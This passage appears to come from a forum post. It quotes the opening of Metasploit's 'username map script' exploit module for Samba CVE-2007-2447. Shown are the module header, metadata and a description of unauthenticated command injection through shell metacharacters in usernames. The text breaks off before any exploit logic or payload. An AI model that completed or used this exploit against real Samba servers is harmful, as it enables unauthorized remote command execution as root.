 
It's pretty short:



    ##
    # $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
    ##

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
            Rank = ExcellentRanking

            include Msf::Exploit::Remote::SMB

            # For our customized version of session_setup_ntlmv1
            CONST = Rex::Proto::SMB::Constants
            CRYPT = Rex::Proto::SMB::Crypt

            def initialize(info = {})
                    super(update_info(info,
                            'Name'           => 'Samba "username map script" Command Execution',
                            'Description'    => %q{
                                            This module exploits a command execution vulnerability in Samba
                                    versions 3.0.20 through 3.0.25rc3 when using the non-default
                                    "username map script" configuration option. By specifying a username
                                    containing shell meta characters, attackers can execute arbitrary
                                    commands.

                                    No authentication is needed to exploit this vulnerability since
                                    this option is used to map usernames prior to authentication!
                            },
                            'Author'         => [ 'jduck' ],
                            'License'        => MSF_LICENSE,
                            'Version'        => '$Revision: 10040 $',
                            'References'     =>
                                    [
                                            [ 'CVE', '2007-2447' ],
                                            [ 'OSVDB', '34700' ],
                                            [ 'BID', '23972' ],
                                            [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                                            [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.md' ]
                                    ],
                            'Platform'       => ['unix'],
                            'Arch'           => ARCH_CMD,
                            'Privileged'     => true, # root or nobody user
                            'Payload'        =>
                                    {